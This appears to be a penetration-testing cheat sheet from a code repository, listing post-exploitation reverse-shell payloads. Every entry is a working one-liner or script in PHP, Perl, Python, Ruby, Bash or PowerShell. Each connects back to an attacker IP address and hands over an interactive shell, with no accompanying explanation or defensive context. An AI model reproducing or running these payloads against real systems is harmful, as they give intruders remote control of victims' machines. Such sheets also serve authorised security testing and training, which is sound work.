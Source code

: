 ##

# Post Exploitation

## Reverse Shell


### PHP Reverse Shell

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Tiny Reverse Shell

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.36.167/1337 0>&1'");
```

### Perl Reverse Shell

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

### Python Reverse Shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Ruby Reverse Shell

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Bash Reverse Shell

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### Powershell Reverse Shell

Create a simple powershell script called reverse.ps1:

```powershell
function reverse_powershell {
    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
}
```
